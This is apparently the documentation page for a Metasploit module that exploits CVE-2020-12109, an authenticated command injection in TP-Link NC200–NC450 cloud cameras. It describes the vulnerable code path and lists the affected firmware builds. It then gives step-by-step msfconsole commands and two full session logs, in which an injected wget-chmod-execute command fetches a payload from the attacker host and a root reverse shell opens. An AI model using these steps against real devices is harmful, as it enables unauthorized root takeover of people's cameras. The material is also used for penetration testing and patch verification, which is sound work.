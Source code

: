 ## Vulnerable Application

TP-Link cloud cameras NCXXX series (NC200, NC210, NC220, NC230, 
NC250, NC260, NC450) are vulnerable to an authenticated command 
injection. In all devices except NC210, despite a check on the name 
length in `swSystemSetProductAliasCheck`, no other checks are in place 
in order to prevent shell metacharacters from being introduced. The 
system name would then be used in `swBonjourStartHTTP` as part of a 
shell command where arbitrary commands could be injected and 
executed as root. NC210 devices cannot be exploited directly via 
`/setsysname.cgi` due to proper input validation. NC210 devices are 
still vulnerable since `swBonjourStartHTTP` did not perform any 
validation when reading the alias name from the configuration file. 
The configuration file can be written, and code execution can be 
achieved by combining this issue with CVE-2020-12110.
This module will therefore support the following TP-Link cameras:

-NC200 <= 2.1.9 build 200225

-NC220 <= 1.3.0 build 200304 

-NC230 <= 1.3.0 build 200304

-NC250 <= 1.3.0 build 200304 

-NC260 <= 1.5.2 build 200304

-NC450 <= 1.5.3 build 200304

## Verification Steps
-Turn your camera on and make sure you can connect to its web interface.

-Take note of the camera model, ip address, web interface port and credentials.

-Once that is done, open msfconsole and execute the following commands:
   
1. `use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection`
2. `set rhost [camera ip]`
3. `set rport [camera web interface port, e.g. 80 or 443]`
4. `set target [ 0 for NC200, NC220, NC230, NC250 | 1 for NC260, NC450]`
5. `set username [web interface username]`
6. `set password [corresponding password]`
7. `set payload [payload of choice, e.g. linux/mipsle/shell/reverse_tcp]` 
8. `set lhost [host ip where our reverse shell is listening]`
9. `set lport [port to listen for incoming shell]`
10. `exploit`

You should get a shell.

## Options
**USERNAME**
The web interface username

**PASSWORD**
The web interface password for the specified username

**RHOSTS**
The target camera ip address

**RPORT**
The target port (TCP)

## Scenarios

Target = 0 (TP-Link NC200, NC220, NC230, NC250)

```
msf5 > use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection
[*] No payload configured, defaulting to linux/mipsle/meterpreter/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rhost 192.168.0.1
rhost => 192.168.0.1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rport 80
rport => 80
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set target 0
target => 0
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set username admin
username => admin
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set password password
password => password
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set payload linux/mipsle/shell/reverse_tcp 
payload => linux/mipsle/shell/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lhost 192.168.0.254
lhost => 192.168.0.254
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lport 5555
lport => 5555
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > exploit

[*] Started reverse TCP handler on 192.168.0.254:6666 
[*] Authenticating with admin:YWRtaW4= ...
[+] Logged-in as admin
[+] Got cookie: t46af69kmher6f9
[+] Got token: g3cgt74qi0li8rd
[*] Using URL: http://0.0.0.0:8080/UzN4UMl7PF9
[*] Local IP: http://10.0.2.15:8080/UzN4UMl7PF9
[*] Executing command: wget -qO /tmp/jxVywWSo http://192.168.0.254:8080/UzN4UMl7PF9;chmod +x /tmp/jxVywWSo;/tmp/jxVywWSo;rm -f /tmp/jxVywWSo
[*] Client 192.168.0.1 (Wget) requested /UzN4UMl7PF9
[*] Sending payload to 192.168.0.1 (Wget)
[*] Sending stage (84 bytes) to 192.168.0.1
[*] Command shell session 3 opened (192.168.0.254:6666 -> 192.168.0.1:60141) at 2020-09-16 18:58:02 -0400
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

```

Target = 1 (TP-Link NC260, NC450)

```
msf5 > use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection
[*] No payload configured, defaulting to linux/mipsle/meterpreter/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rhost 192.168.0.1
rhost => 192.168.0.1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rport 443
rport => 443
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set target 1
target => 1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set username admin
username => admin
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set password password
password => password
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set payload linux/mipsle/shell/reverse_tcp 
payload => linux/mipsle/shell/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lhost 192.168.0.254
lhost => 192.168.0.254
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lport 5555
lport => 5555
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > exploit

[*] Started reverse TCP handler on 192.168.0.254:5555 
[*] Authenticating with admin:0b8b946432f1ac91f0b07bd5f8df6587 ...
[+] Logged-in as admin
[+] Got cookie: s8ee6m830juadua
[+] Got token: kad9grok1ap37li
[*] Using URL: http://0.0.0.0:8080/Le4r7p9x
[*] Local IP: http://10.0.2.15:8080/Le4r7p9x
[*] Executing command: wget -qO /tmp/MzczOZUl http://192.168.0.254:8080/Le4r7p9x;chmod +x /tmp/MzczOZUl;/tmp/MzczOZUl;rm -f /tmp/MzczOZUl
[*] Client 192.168.0.1 (Wget/1.13.4 (linux-gnu)) requested /Le4r7p9x
[*] Sending payload to 192.168.0.1 (Wget/1.13.4 (linux-gnu))
[*] Sending stage (84 bytes) to 192.168.0.1
[*] Command shell session 3 opened (192.168.0.254:5555 -> 192.168.0.1:40216) at 2020-09-16 19:00:34 -0400
[*] Command Stager progress - 100.00% done (109/109 bytes)
[*] Server stopped.
```

### References

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-12109

https://nvd.nist.gov/vuln/detail/CVE-2020-12109

https://seclists.org/fulldisclosure/2020/May/2
